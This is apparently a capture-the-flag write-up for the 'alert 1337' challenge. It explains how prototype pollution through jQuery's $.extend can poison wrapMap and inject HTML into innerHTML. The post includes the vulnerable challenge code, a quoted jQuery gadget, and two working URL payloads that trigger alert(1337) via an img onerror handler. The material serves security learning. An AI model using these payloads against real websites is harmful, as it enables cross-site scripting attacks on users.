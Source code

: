 ```yaml
---
layout: post
title:  "alert 1337 - jquery prototype pollution"
---
```


# alert 1337 - jquery prototype pollution

challenge here 
https://msrkp.github.io/

code
```
<script src="https://code.jquery.com/jquery-1.12.4.js"></script>
<script>
	var HoF = {0:"@st98_",1: "@SecurityMB",3:"@0xParrot",4:"@pgt_r2ursystem",5:"You ?"};
	
	function escapeHTML(input){
		return input.replace(/</g,'&lt;').replace(/>/g,'&gt;')
	}
	var params = new URLSearchParams(window.location.search);
	var name = params.get('name');
	var paramsJson = $.extend(true, HoF, JSON.parse(name));
	$.each(paramsJson,function(key,value){
		$(`<li id='name'>${escapeHTML(value)}</li>`).appendTo('#HoF')
	});
</script>
```

The code is simple. `$.extend` is used. So there is prototype pollution. We need to use it.

First, I thought the challenge is to use pp to bypass `escapeHTML`. So I spend hours trying to figure out how do pp the function. But no luck. I even thought that I can use `}` to pair with the `${`.

After some rest. I checked this git. `https://github.com/BlackFan/client-side-prototype-pollution`

Here we can find many poc about pp. Since the code here is jQuery, I'll try to figure out how the payloads works.

I choose this one. `https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md`

```
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```
After debugging it, I know that we need to pp jquery functions. So my thoughts were wrong.
So I try to debug again. Line by line. Try to find out what to pp.

in function `buildFragment`,
```
} else {
				tmp = tmp || safe.appendChild( context.createElement( "div" ) );

				// Deserialize a standard representation
				tag = ( rtagName.exec( elem ) || [ "", "" ] )[ 1 ].toLowerCase();
				wrap = wrapMap[ tag ] || wrapMap._default;

				tmp.innerHTML = wrap[ 1 ] + jQuery.htmlPrefilter( elem ) + wrap[ 2 ];
```

We can pp wrapMap. So our evil code can be injected into tmp.
`tag` is `li`, `li` not in `wrapMap`. So after our pp, `wrapMap['li']` is what we control.
Then we can control `wrap[1]`. Then `tmp.innerHTML`. In the end, we get the alert.
`https://msrkp.github.io/?name={%22__proto__%22:{%22li%22:{%221%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}`
And this one.
`https://msrkp.github.io/?name={%22__proto__%22:{%22li%22:{%222%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}`


